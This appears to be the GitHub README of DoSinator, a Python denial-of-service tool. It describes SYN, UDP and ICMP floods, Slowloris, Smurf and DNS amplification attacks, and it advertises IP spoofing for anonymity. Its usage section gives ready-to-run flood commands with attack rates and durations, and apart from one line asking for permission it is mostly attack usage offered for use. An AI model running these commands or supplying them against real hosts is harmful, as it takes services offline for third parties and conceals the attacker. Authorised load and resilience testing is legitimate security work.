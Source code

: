 # DoSinator

DoSinator is a powerful Denial of Service (DoS) testing tool developed in Python.
<img src="source/dosinator2.png">
## Features

- **Multiple Attack Modes**: DoSinator supports SYN Flood, UDP Flood, ICMP Flood,Os Fingerprint, Slowloris, and Smurf attack modes, allowing you to simulate various types of DoS attacks.
- **Customizable Parameters**: Adjust the packet size, attack rate, and duration to fine-tune the intensity and duration of the attack.
- **IP Spoofing**: Enable IP spoofing to mask the source IP address and enhance anonymity during the attack.
- **Multithreaded Packet Sending**: Utilize multiple threads for simultaneous packet sending, maximizing the attack speed and efficiency.
- **Data from File**: Load custom data from a file to be sent in the attack packets.
- **PCAP Output**: Save the outgoing attack packets to a PCAP file for further analysis.

## Requirements

- Python 3.x
- scapy
- argparse

## Installation

1. Clone the repository:

   ```shell
   git clone https://github.com/HalilDeniz/DoSinator.git
   ```

2. Navigate to the project directory:

   ```shell
   cd DoSinator
   ```

3. Install the required dependencies:

   ```shell
   pip install -r requirements.txt
   ```

## Usage

```shell
python3 dosinator.py --help                                                                 
    ____             ____            __                
   / __ \____  _____/  _/___  ____ _/ /_____  _____    
  / / / / __ \/ ___// // __ \/ __ `/ __/ __ \/ ___/    
 / /_/ / /_/ (__  )/ // / / / /_/ / /_/ /_/ / /  _ _ _ 
/_____/\____/____/___/_/ /_/\__,_/\__/\____/_/  (_|_|_)
                                                       

usage: dosinator.py [-h] -t TARGET -p PORT [-np NUM_PACKETS] [-ps PACKET_SIZE] [-ar ATTACK_RATE] [-d  DURATION]
                    [-am {syn,udp,icmp,http,dns,os_fingerprint,slowloris,smurf}] [-sp SPOOF_IP] [--data DATA] [--file FILE]
                    [--pcap PCAP]

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        Target IP address
  -p PORT, --port PORT  Target port number
  -np NUM_PACKETS, --num_packets NUM_PACKETS
                        Number of packets to send (default: 500)
  -ps PACKET_SIZE, --packet_size PACKET_SIZE
                        Packet size in bytes (default: 64)
  -ar ATTACK_RATE, --attack_rate ATTACK_RATE
                        Attack rate in packets/second (default: 10)
  -d  DURATION, --duration DURATION
                        Duration of the attack in seconds
  -am {syn,udp,icmp,http,dns,os_fingerprint,slowloris,smurf}, --attack-mode {syn,udp,icmp,http,dns,os_fingerprint,slowloris,smurf}
                        Attack mode (default: syn)
  -sp SPOOF_IP, --spoof-ip SPOOF_IP
                        Spoof IP address
  --data DATA           Custom data string to send
  --file FILE           File path to read data from
  --pcap PCAP           PCAP file path to save outgoing packets
```

- `target_ip`: IP address of the target system.
- `target_port`: Port number of the target service.
- `num_packets`: Number of packets to send (default: 500).
- `packet_size`: Size of each packet in bytes (default: 64).
- `attack_rate`: Attack rate in packets/second (default: 10).
- `duration`: Duration of the attack in seconds.
- `attack_mode`: Attack mode: syn, udp, icmp, http (default: syn).
- `spoof_ip`: Spoof IP address (default: None).
- `data`: Custom data string to send.
- `file`: File path to read data from.
- `pcap`: PCAP file path to save outgoing packets


## Usage Examples

Here are some usage examples of DoSinator:

#### SYN Flood Attack
```shell
python dosinator.py -t 192.168.1.1 -p 80 -ar 1000 -d 60 -am syn
```

#### UDP Flood Attack with Custom Data
```shell
python dosinator.py -t 192.168.1.2 -p 53 -ar 500 -d 120 -am udp --data "CustomPayload123"
```

#### ICMP Flood Attack with IP Spoofing
```shell
python dosinator.py -t 192.168.1.3 -p 443 -ar 200 -d 180 -am icmp -sp random
```

#### HTTP Slowloris Attack
```shell
python dosinator.py -t 192.168.1.4 -p 8080 -ar 50 -d 300 -am slowloris
```

#### Smurf Attack
```shell
python dosinator.py -t 192.168.1.5 -p 0 -ar 100 -d 240 -am smurf
```

#### DNS Amplification Attack with Data from File
```shell
python dosinator.py -t 192.168.1.6 -p 53 -ar 300 -d 150 -am dns --file dns_query.txt
```


Please use this tool responsibly and ensure you have the necessary permissions before conducting any tests.

## Contributing

Contributions are welcome! If you find any issues or have suggestions for improvements, feel free to open an issue or submit a pull request.

## Contact

If you have any questions, comments, or suggestions about Dosinator, please feel free to contact me:
- Linktr [halildeniz](https://linktr.ee/halildeniz)
- DenizHalil [DenizHalil](https://denizhalil.com)
- LinkedIn: [Halil Ibrahim Deniz](https://www.linkedin.com/in/halil-ibrahim-deniz/)
- TryHackMe: [Halilovic](https://tryhackme.com/p/halilovic)
- Instagram: [deniz.halil333](https://www.instagram.com/deniz.halil333/)
- YouTube: [Halil Deniz](https://www.youtube.com/c/HalilDeniz)
- Email: halildeniz313@gmail.com


## License
This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for more details.

## 💰 You can help me by Donating
  Thank you for considering supporting me! Your support enables me to dedicate more time and effort to creating useful tools like Dosinator and developing new projects. By contributing, you're not only helping me improve existing tools but also inspiring new ideas and innovations. Your support plays a vital role in the growth of this project and future endeavors. Together, let's continue building and learning. Thank you!"<br>
  [![BuyMeACoffee](https://img.shields.io/badge/Buy%20Me%20a%20Coffee-ffdd00?style=for-the-badge&logo=buy-me-a-coffee&logoColor=black)](https://buymeacoffee.com/halildeniz) 
  [![Patreon](https://img.shields.io/badge/Patreon-F96854?style=for-the-badge&logo=patreon&logoColor=white)](https://patreon.com/denizhalil) 

  
